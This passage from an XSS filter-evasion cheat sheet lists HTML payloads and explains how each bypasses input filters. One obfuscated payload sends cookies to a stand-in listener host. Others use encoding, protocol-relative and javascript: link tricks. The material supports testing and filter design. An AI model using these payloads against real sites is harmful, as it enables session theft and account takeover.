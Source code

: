 ```html
<img onload="eval(atob('ZG9jdW1lbnQubG9jYXRpb249Imh0dHA6Ly9saXN0ZXJuSVAvIitkb2N1bWVudC5jb29raWU='))">
```

#### Mixed Encoding

Let's mix and match base encoding and throw in some tabs and newlines (why browsers allow this, I'll never know). The tabs and newlines only work if this is encapsulated with quotes:


```html
<A HREF="h
tt  p://6	6.000146.0x7.147/">XSS</A>
```


#### Protocol Resolution Bypass

`//` translates to `http://`, which saves a few more bytes. This is really handy when space is an issue too (two less characters can go a long way) and can easily bypass regex like `(ht|f)tp(s)?://` (thanks to Ozh for part of this one). You can also change the `//` to `\\\\`. You do need to keep the slashes in place, however, otherwise this will be interpreted as a relative path URL:

```html
<A HREF="//www.google.com/">XSS</A>
```

#### Removing CNAMEs

When combined with the above URL, removing `www.` will save an additional 4 bytes for a total byte savings of 9 for servers that have set this up properly:

```html
<A HREF="http://google.com/">XSS</A>
```

Extra dot for absolute DNS:

```html
<A HREF="http://www.google.com./">XSS</A>
```

#### JavaScript Link Location

```html
<A HREF="javascript:document.location='http://www.google.com/'">XSS</A>
```

#### Content Replace as Attack Vector


Assuming `http://www.google.com/` is programmatically replaced with nothing. A similar attack vector has been used against several separate real world XSS filters by using the conversion filter itself (here is an example) to help create the attack vector `java&\#x09;script:` was converted into `java	script:`, which renders in IE:


```html
<A HREF="http://www.google.com/ogle.com/">XSS</A>
```
